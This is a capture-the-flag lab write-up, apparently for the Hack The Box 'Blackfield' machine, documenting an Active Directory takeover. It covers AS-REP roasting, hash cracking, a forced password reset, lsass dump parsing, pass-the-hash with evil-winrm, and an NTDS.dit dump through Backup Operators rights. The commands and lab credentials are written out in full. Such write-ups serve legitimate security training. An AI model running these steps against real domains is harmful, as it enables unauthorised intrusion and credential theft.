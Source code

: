 `sudo nmap -sC -sV -p- 10.10.10.192 -oN blackfield -T4 
![[Pasted image 20240528212507.png]]
 looks like a DC  , so let's try to enumerate 
 I tried rpcclient null session , and ldap null session , and tried to look for shares. 
the weird things here is smbclient did show a list of shares , while nxc (using -u ''-p'' )shows that we don't have permission to enumerate the shares .

when dealing with smb shares the best way to enumerate is smbmap

`smbmap -H 10.10.10.192 -u null`
![[Pasted image 20240528215120.png]]

we can read ==profiles$==
seems like list of users , let's create a wordlists with this users and try asreproasting 
![[Pasted image 20240528215355.png]]

`impacket-GetNPUsers Blackfield.local/  -usersfile users.txt	`
![[Pasted image 20240528215859.png]]

let's crack it 
`hashcat -a 0 -m 18200 asreperoasting /usr/share/wordlists/rockyou.txt `
![[Pasted image 20240528220522.png]]

we got support password , let's run bloodhound 
`nxc ldap 10.10.10.192 -u 'support' -p '#00^BlackKnight' -c all --bloodhound -ns 10.10.10.192
`
![[Pasted image 20240528220830.png]]

after uploading it to bloodhound we can see that our user has ==forcechangepassword== over ==audit2020== 

`net rpc password "AUDIT2020" "d0s3nt123@" -U "BLACKFIELD.LOCAL"/"support"%"#00^BlackKnight" -S "DC01.BLACKFIELD.LOCAL"
`
`nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@'  `
![[Pasted image 20240528221919.png]]

let's enumerate shares using this new credentials 
`nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --shares
![[Pasted image 20240528222207.png]]`

if we spider this share 
`nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --share forencsic -M spider_plus
`
very juicy
![[Pasted image 20240528222511.png]]

after getting the zip and unzip the files , we can use ==pypkatz== to read the contend of the DUMP 
`pypykatz lsa minidump  lsass.DMP
![[Pasted image 20240528222912.png]]
we found couples of hashes but the only that work was ==svc_backup== 
let's see what we can do with it , back to ==bloodhound==

we can get shell using ==evil-winrm== 
![[Pasted image 20240528222958.png]]

`evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'`
![[Pasted image 20240528223137.png]]


this user is part of backup operator group so we can use it to read any files we want on the box 
at first I tried to dump the ==SAM== But the administrator hash on it didn't work
`reg save HKLM\SAM sam`
`reg save HKLM\SYSTEM system`
![[Pasted image 20240528223354.png]]

![[Pasted image 20240528223450.png]]

we can host an smbserver and transfer it very quick 

but the SAM database will not lead us anywhere 

so I tried to dump the ==NTDS==

for that I need to used ==diskshadow.exe== utility
we can use the following script with the diskshadows.exe (I took it  from https://academy.hackthebox.com/module/67/section/601)
![[Pasted image 20240528224528.png]]

before send it to the machine , we need ==unix2dos== so the stupid windows can read our script
![[Pasted image 20240528224701.png]]

![[Pasted image 20240528224753.png]]

`diskshadow.exe /s disk.txt`
![[Pasted image 20240528224954.png]]


![[Pasted image 20240528225012.png]]

we can now host an smbserver and transfer the ==NTDS.dit== easily
then use ==secretsdump to read the NTDS==
`impacket-secretsdump -ntds ntds.dit -system SYSTEM.SAV LOCAL`
![[Pasted image 20240528225243.png]]

![[Pasted image 20240528225358.png]]